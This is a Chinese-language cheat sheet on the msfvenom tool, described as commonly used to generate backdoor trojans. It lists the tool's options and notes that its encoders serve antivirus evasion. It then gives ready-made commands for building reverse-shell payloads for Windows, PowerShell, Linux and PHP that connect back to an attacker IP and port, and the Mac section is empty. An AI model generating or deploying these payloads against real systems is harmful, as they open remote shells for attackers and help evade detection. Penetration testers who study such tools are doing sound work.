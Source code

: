 

### msfvenom

> 常用于生成后门木马

```nginx
-p：指定需要使用的payload
-f：输出荷载格式
-e：指定使用的编码器，用免杀
-a：指定payload目标的系统架构
-o：保存payload的输出文件（可以生成payload文件）
-s：设置文件大小
-i：设置编码次数

-p, --payload <payload> 使用指定的payload
--payload-options, 列出该payload参数
-l, --list [type] 列出所有的payloads
-n, --nopsled <length> 为payload指定一个 nopsled 长度
-f, --format <format> 指定payload生成格式
--help-formats 查看所有支持格式
-e, --encoder <encoder> 使用编码器
-a, --arch <arch> 指定payload构架
--platform <platform> 指定payload平台
--help-platforms 显示支持的平台
-s, --space <length> 设定payload攻击荷载的最大长度
--encoder-space <length> The maximum size of the encoded payload

(defaults to the -s value)
-b, --bad-chars <list> 指定bad-chars 如: '\x00\xff'
-i, --iterations <count> 指定编码次数
-c, --add-code <path> 指定个win32 shellcode 文件
-x, --template <path> 指定一个 executable 文件作为模板
-k, --keep payload自动分离并注入到新的进程
-o, --out <path> 存放生成的payload
-v, --var-name <name> 指定自定义变量
--smallest Generate the smallest possible payload
-h, --help 显示帮助文件

```

**各平台生成payload命令**

https://www.mi1k7ea.com/2021/02/22/msfvenom%E5%B8%B8%E7%94%A8%E7%94%9F%E6%88%90payload%E5%91%BD%E4%BB%A4/

```nginx
# Windows
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o payload.exe

# PowerShell
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e cmd/powershell_base64 -i 3 -f raw -o payload.ps1

# Linux
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f elf -o payload.elf

# PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php


# Mac
```
